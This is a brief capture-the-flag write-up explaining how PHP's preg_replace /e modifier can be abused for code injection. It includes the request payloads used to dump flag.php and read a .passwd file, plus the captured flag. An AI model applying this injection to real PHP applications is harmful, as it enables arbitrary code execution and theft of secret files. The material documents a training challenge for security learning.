 ```yaml
---
layout: default
title: PHP-preg_replace
---
```


We can supply the `/e`, and then the `preg_replace` will be like `eval` and let us run code, like this challenge: https://avishaigonen123.github.io/CTF_writeups/websec.fr/level05.html

we send this:
```
search=/bla/e&replace=show_source("flag.php");&content=bla
```
By this way, the preg_replace command that'll be run is:
```php
preg_replace("/bla/e","show_source("flag.php");","bla");
```

And we can see the content of `flag.php`. So, the flag is inside `.passwd`

![burp sending](./images/PHP-preg_replace_burpi.png)

Then, we can run this:
```php
die(file_get_contents(".passwd"))
```

![FINAL](./images/PHP-preg_replace_FINAL.png)
Then, we got this:

**Flag:** **_`pr3g_r3pl4c3_3_m0d1f13r_styl3`_**
